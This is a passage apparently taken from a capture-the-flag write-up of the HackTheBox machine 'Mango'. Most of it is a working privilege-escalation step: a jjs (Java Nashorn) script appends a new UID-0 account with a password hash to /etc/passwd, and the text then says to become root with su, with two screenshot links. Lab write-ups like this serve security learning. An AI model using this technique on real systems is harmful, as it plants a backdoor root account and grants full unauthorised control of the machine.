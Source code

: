 ```js
$ jjs
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd", true);
fw.write("0x4rt3mis:$1$0utC/RFH$0Q1XJJx9b1wmDC/MdbqVe.:0:0:root:/root:/bin/bash\n");
fw.close();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:58:47.png)

Now, become root with su

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-13-HackTheBox-Mango/2021-09-13-HackTheBox-Mango%2007:59:15.png)